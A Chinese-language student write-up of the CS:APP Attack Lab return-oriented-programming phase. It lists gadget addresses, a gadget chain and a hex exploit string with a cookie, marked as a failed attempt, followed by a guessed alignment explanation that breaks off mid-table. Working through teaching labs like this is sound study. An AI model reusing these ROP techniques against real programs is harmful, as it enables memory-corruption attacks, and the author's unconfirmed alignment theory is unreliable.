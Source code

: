 我们只能在栈中存储cookie，但不知道栈的位置，只能通过rsp寄存器读取。查表知道该指令只有48 89 e0到48 89 e7；在farm中可以搜到如下函数符合要求：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq 
```

```48 89 e0 c3   mov %rsp，%rax```

而add_xy是%rdi和%rsi相加给%rax。

##### 错误答案

执行完getbuf之后rsi的值为0x31=49。

<img src="./image/3,attack_lab(target)_image/image-20240510203203744.png" alt="image-20240510203203744" style="zoom: 67%;" />

因此，执行逻辑应该是

<img src="./image/3,attack_lab(target)_image/image-20240510211646149.png" alt="image-20240510211646149" style="zoom: 67%;" />

```
mov %rsp,%rax       #gadget1             #farm中地址 0x401a06
ret 
mov %rax,%rdi        #gadget2              #0x4019c5
ret
lea    (%rdi,%rsi,1),%rax   #gadget3        #0x4019d6
ret
mov %rax,%rdi     #gadget4                  #0x4019c5
ret 
```

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00        /* gadget1 */
c5 19 40 00 00 00 00 00        /* gadget2 */
d6 19 40 00 00 00 00 00        /* gadget3 */
c5 19 40 00 00 00 00 00        /* gadget4 */
fa 18 40 00 00 00 00 00        /* touch3 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00                               /* 偏移0x31=49 */ 
35 39 62 39 39 37 66 61        /* cookie */
```

gdb调试时发现有如下错误：Program received signal SIGSEGV, Segmentation fault.

使用上述方法在执行到touch3时，sval指向是没问题的，进入hexmatch后，在执行sprintf函数时会报错。

猜测可能是因为：64位的CPU每个时刻周期可以读取8个字节，根据内存对齐，（字符串数组名是一个指针），指针指向的栈中地址应该是8的倍数？即上述偏移0x31不满足要求。网上的答案都是0x48作为偏移。

教材p189页：

==许多计算机系统对基本数据类型的合法地址做了一些限制，要求某种类型对象所在的地址必须是某个值K的倍数，K的具体如下图所示。==

|  K   |       类型        |
| :--: | :---------------: |
|  1   |       char        |
|  2   |       short       |
```